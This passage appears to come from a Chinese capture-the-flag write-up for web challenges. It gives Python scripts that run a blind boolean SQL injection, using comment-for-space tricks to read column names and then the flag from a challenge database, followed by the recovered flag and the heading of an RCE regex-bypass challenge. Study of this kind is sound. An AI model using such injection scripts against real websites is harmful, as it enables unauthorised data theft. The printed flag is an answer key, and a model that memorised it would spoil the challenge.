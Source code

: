 

爆列名:

```python
def get_column_name():
    column_name = ""
    for i in range(1,30):
        for c in chars:
            payload = "1/**/and/**/(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='flag'),{},1)='{}')#".format(i, c)
            url = base_url + payload
            print(url)
            res = session.get(url).text
            # print(res)
            if "Hi admin, your score is: 100" in res:
                column_name += c
                print(column_name)
                break
//列名: flag,value
```

爆数据:

```python
def get_data():
    data = ""
    for i in range(1,300):
        for c in chars:
            payload = "1/**/and/**/(substr((select/**/group_concat(value)/**/from/**/flag),{},1)='{}')#".format(i, str(c))
            url = base_url + payload
            print(url)
            res = session.get(url).text
            # print(res)
            if "Hi admin, your score is: 100" in res:
                data += c
                print(data)
                break
//flag{debd4fbe-9cc4-4e30-9f3e-6a2ad2b04eb5}
```

<br>

***

<br>

# [换行符绕正则]RCEService

<img src="/images/buuctf-web2/image-20221025144311248.png" alt="image-20221025144311248" style="zoom:67%;" />
